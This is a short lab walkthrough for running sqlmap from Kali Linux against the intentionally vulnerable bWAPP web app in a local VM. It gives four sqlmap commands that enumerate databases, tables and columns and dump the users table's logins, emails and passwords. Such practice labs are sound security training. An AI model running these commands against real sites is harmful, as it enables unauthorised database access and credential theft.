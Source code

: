 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

   ```
    ![](/assets/VirtualBox-2-VM)
   ```

   1. launch bWAP and make sure it is running; 

![](/assets/bWAPP-VM)

1. Launch Kali and make sure you can access the bWAPP from Iceweasel.![](/assets/access-bWAPP-from-kali)

2. Go to SQL Injection \(GET/Search\)

![](/assets/choose-SQL-GET)

1. key in a search string; copy of the resulted URL;

![](/assets/key-in-search-box)

![](/assets/SQL-get-URL)

1. Find out the cookie for the site;

   ![](/assets/get-cookie-1)

   ![](/assets/get-cookie-2)

2. launch SQLmap from terminal;

   **step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

   ![](/assets/sql-all-dbs)

   **step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

   ![](/assets/sql-all-tables-bWAPP)

   **step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

   ![](/assets/sql-all-col-table-users)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

```
  ![](/assets/sql-all-users-email-pwd)
```



